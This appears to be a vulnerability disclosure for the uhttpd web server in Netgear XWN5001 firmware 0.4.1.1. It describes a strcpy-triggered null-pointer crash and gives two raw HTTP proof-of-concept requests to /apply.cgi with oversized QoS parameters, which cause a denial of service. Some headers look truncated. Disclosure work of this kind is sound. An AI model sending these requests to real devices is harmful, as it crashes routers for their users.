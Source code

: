 # xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a null-pointer-dereference vulnerability. When a specific network packet is sent to the uhttpd binary, the strcpy operation crashes, resulting in a denial of service. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x430780 of the binary usr/sbin/uhttpd. 
strcpy in sub_430780 (line 31 in the picture) is source of the issue.

sub_430780:
![sub_430780](sub_430780.png)



## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

plc_qos_port_select=1&hide2_policy=wzqwzqwzq&submit_flag=plc_qos_dev_port_config
```

# package2
```txt
POST /apply.cgi? tim
Host: /cgi-bin/
C
Accept:
Con
Content-Length: 716

qos_port_priority=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&plc_qos_port=11111111111111111111111111111111111111111111111111111111111111111111111111111111111&%20timestamp=;wzq&submit_flag=plc_qos_port_edit
```
